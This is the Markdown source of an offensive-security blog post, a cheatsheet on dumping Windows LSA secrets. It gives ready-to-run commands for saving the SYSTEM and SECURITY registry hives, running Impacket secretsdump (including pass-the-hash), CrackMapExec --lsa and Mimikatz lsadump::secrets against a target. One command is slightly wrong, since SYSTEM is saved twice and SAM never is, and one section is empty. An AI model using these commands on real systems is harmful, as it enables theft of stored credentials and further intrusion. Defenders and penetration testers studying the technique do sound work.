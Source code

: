 ```yaml
---
layout: single
title:  "OS Credential Dumping: LSA Secrets"
date:   2021-11-29
categories: CredentialAccess CredentialDumping
sidebar:
    nav: "credaccess"
toc: true

---
```


# Introduction
LSA secrets is part of the data that is stored within the Local Security Authority (LSA) in Windows. LSA itself is utilized to store private data all things revolving around passwords hence why we might care about it. They live within the registry and can be found at **HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets**. Naturally since its in the registry, in order to do anything with it, we'll need to have administrative access to the system in question. So in for a penny, in for a pound...

# Cheatsheet
Most of these methods will work without any extra work, but for reference I'll add alternatives to each incase you dont have cleartext password of the user involved, in which case the NTLM hash of the user will be sufficient. If all else fails you can manually save the registry files and export them to your attacking machine and manipulate them as needed. Also, this list will not be exhaustive, as during my research a lot of these tools just piggy back off of each other so I'll list the most common/popular ones that I've seen and used myself.

## Save Registry Files:
{% highlight powershell %}
    reg.exe save HKLM\SYSTEM <NAME>
    reg.exe save HKLM\SECURITY <NAME>
    reg.exe save HKLM\SYSTEM <NAME>
{% endhighlight %}

## Impacket SecretsDump:
{% highlight shell %}
    python3 secretsdump.py <AD FQDN>/<USERNAME>:<PASSWORD>@<IP ADDRESS>
    python3 secretsdump.py -hashes <NTLM FULL HASH> <AD FQDN>/<USER>@<IP ADDRESS>
    python3 secretsdump.py -sam <SAMNAME> -security <SECURITYNAME> -system <SYSTEMNAME> LOCAL
{% endhighlight %}

## CrackMapExec:
{% highlight shell %}
    crackmapexec smb <IP ADDRESS OR RANGE> -u <USERNAME> -p '<PASSWORD>' --lsa
{% endhighlight %}

## Mimikatz:
{% highlight powershell %}
    lsadump::secrets /system:<LOCATION OF SYSTEM REG FILE> /security:<LOCATION OF SECURITY FILE>
{% endhighlight %}

# Down The Rabbit Hole
##
##
##


# Tool References
1. [Impacket SecretsDump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
2. [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
3. [Mimikatz](https://github.com/gentilkiwi/mimikatz)

# References
1. [https://attack.mitre.org/techniques/T1003/004/](https://attack.mitre.org/techniques/T1003/004/)
2. [https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
3. [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
4. [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)